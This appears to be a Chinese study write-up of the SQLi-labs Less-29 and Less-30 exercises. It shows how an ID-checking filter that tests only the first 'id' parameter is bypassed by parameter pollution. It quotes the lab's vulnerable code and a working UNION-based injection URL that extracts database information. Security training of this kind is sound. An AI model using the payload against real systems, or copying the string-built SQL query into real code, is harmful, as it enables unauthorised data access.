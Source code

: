 那么接下来的类容很熟悉了，不一一做记录

----------------------------------代码审计-----------------------------------

根据其中代码逻辑，WAF会检测ID是否为数字，如果不是一律转向 hacked.php 。但是 程序
没有考虑当 ID 多赋值的情况（GET的特点：单一参数多次赋值，只保留最后一次赋值），
它只对第一次的 id 进行了测试，如果转入多个 id ，那么后面的 id 则存在注入漏洞

less-30 、 less-31 和 less-29 考察点一样，只是SQL语句略有不同， 就一笔带过

首先先看下 tomcat 中的index.jsp 文件

源代码

 String rex = "^\\d+$";		# 对 jsp 参数进行处理
 Boolean match=id.matches(rex);
 if(match == true)
 {
         URL sqli_labs = new URL("http://localhost/sqli-labs/Less-29/index.php?"+ qs);	# 请求 php 服务器
 }
1
2
3
4
5
6
测试

/sqli-labs/Less-29/index.jsp?id=1&id=-2%27union%20select%201,user(),3–+



 至于如何注入到其他的内容，只需要自己构造 union 后面的 sql 语句即可。
1
Less-30 盲注型过waf
源代码 （index.php）

 $qs = $_SERVER['QUERY_STRING'];
 $hint=$qs;
 $id = '"' .$id. '"';

 // connectivity 
 $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
 $result=mysql_query($sql);
 $row = mysql_fetch_array($result);
 if($row)
 {
         echo "<font size='5' color= '#99FF00'>";
         echo 'Your Login name:'. $row['username'];
         echo "<br>";
         echo 'Your Password:' .$row['password'];
         echo "</font>";
 }
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16